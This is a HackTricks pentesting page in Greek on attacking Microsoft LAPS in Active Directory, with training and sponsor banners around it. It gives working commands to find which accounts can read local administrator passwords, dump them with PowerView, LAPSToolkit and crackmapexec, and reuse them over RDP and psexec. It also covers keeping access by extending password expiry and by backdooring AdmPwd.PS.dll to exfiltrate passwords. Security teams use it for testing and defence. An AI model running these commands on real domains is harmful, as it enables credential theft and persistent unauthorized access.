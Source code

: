 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Η Λύση Διαχείρισης Κωδικών Διαχειριστή (LAPS) είναι ένα εργαλείο που χρησιμοποιείται για τη διαχείριση ενός συστήματος όπου οι **κωδικοί διαχειριστή**, οι οποίοι είναι **μοναδικοί, τυχαίοι και συχνά αλλάζουν**, εφαρμόζονται σε υπολογιστές που είναι συνδεδεμένοι στο domain. Αυτοί οι κωδικοί αποθηκεύονται με ασφάλεια μέσα στο Active Directory και είναι προσβάσιμοι μόνο σε χρήστες που έχουν λάβει άδεια μέσω Λιστών Ελέγχου Πρόσβασης (ACLs). Η ασφάλεια των μεταδόσεων κωδικών από τον πελάτη στον διακομιστή διασφαλίζεται μέσω της χρήσης του **Kerberos έκδοση 5** και του **Προηγμένου Προτύπου Κρυπτογράφησης (AES)**.

Στα αντικείμενα υπολογιστών του domain, η υλοποίηση του LAPS έχει ως αποτέλεσμα την προσθήκη δύο νέων χαρακτηριστικών: **`ms-mcs-AdmPwd`** και **`ms-mcs-AdmPwdExpirationTime`**. Αυτά τα χαρακτηριστικά αποθηκεύουν τον **κωδικό διαχειριστή σε απλή μορφή** και **τον χρόνο λήξης του**, αντίστοιχα.

### Check if activated
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS Password Access

Μπορείτε να **κατεβάσετε την αρχική πολιτική LAPS** από `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` και στη συνέχεια να χρησιμοποιήσετε το **`Parse-PolFile`** από το [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) πακέτο για να μετατρέψετε αυτό το αρχείο σε αναγνώσιμη μορφή.

Επιπλέον, οι **ενσωματωμένες LAPS PowerShell cmdlets** μπορούν να χρησιμοποιηθούν αν είναι εγκατεστημένες σε μια μηχανή στην οποία έχουμε πρόσβαση:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** μπορεί επίσης να χρησιμοποιηθεί για να ανακαλύψετε **ποιος μπορεί να διαβάσει τον κωδικό πρόσβασης και να τον διαβάσει**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

Το [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) διευκολύνει την αρίθμηση του LAPS με πολλές λειτουργίες.\
Μία είναι η ανάλυση **`ExtendedRights`** για **όλους τους υπολογιστές με ενεργοποιημένο το LAPS.** Αυτό θα δείξει **ομάδες** που έχουν **εξουσιοδοτηθεί ειδικά να διαβάζουν τους κωδικούς πρόσβασης LAPS**, οι οποίες είναι συχνά χρήστες σε προστατευμένες ομάδες.\
Ένας **λογαριασμός** που έχει **συνδέσει έναν υπολογιστή** σε ένα τομέα λαμβάνει `All Extended Rights` πάνω σε αυτόν τον υπολογιστή, και αυτό το δικαίωμα δίνει στον **λογαριασμό** τη δυνατότητα να **διαβάζει κωδικούς πρόσβασης**. Η αρίθμηση μπορεί να δείξει έναν λογαριασμό χρήστη που μπορεί να διαβάσει τον κωδικό πρόσβασης LAPS σε έναν υπολογιστή. Αυτό μπορεί να μας βοηθήσει να **στοχεύσουμε συγκεκριμένους χρήστες AD** που μπορούν να διαβάσουν τους κωδικούς πρόσβασης LAPS.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
Αν δεν υπάρχει πρόσβαση σε powershell, μπορείτε να εκμεταλλευτείτε αυτό το δικαίωμα απομακρυσμένα μέσω LDAP χρησιμοποιώντας
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Αυτό θα εξάγει όλους τους κωδικούς πρόσβασης που μπορεί να διαβάσει ο χρήστης, επιτρέποντάς σας να αποκτήσετε καλύτερη πρόσβαση με έναν διαφορετικό χρήστη.

## ** Χρήση Κωδικού LAPS **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistence**

### **Ημερομηνία Λήξης**

Μόλις γίνετε διαχειριστής, είναι δυνατόν να **αποκτήσετε τους κωδικούς πρόσβασης** και να **αποτρέψετε** μια μηχανή από το **να ενημερώσει** τον **κωδικό πρόσβασης** της **ορίζοντας την ημερομηνία λήξης στο μέλλον**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Ο κωδικός πρόσβασης θα επαναρυθμιστεί αν ένας **admin** χρησιμοποιήσει την **`Reset-AdmPwdPassword`** cmdlet; ή αν είναι ενεργοποιημένη η επιλογή **Μην επιτρέπετε τον χρόνο λήξης κωδικού πρόσβασης μεγαλύτερο από αυτόν που απαιτεί η πολιτική** στην GPO του LAPS.
{% endhint %}

### Backdoor

Ο αρχικός πηγαίος κώδικας για το LAPS μπορεί να βρεθεί [εδώ](https://github.com/GreyCorbel/admpwd), επομένως είναι δυνατόν να τοποθετηθεί ένα backdoor στον κώδικα (μέσα στη μέθοδο `Get-AdmPwdPassword` στο `Main/AdmPwd.PS/Main.cs`, για παράδειγμα) που θα **εξάγει νέους κωδικούς πρόσβασης ή θα τους αποθηκεύει κάπου**.

Στη συνέχεια, απλώς μεταγλωττίστε το νέο `AdmPwd.PS.dll` και ανεβάστε το στη μηχανή στο `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (και αλλάξτε την ώρα τροποποίησης).

## References
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

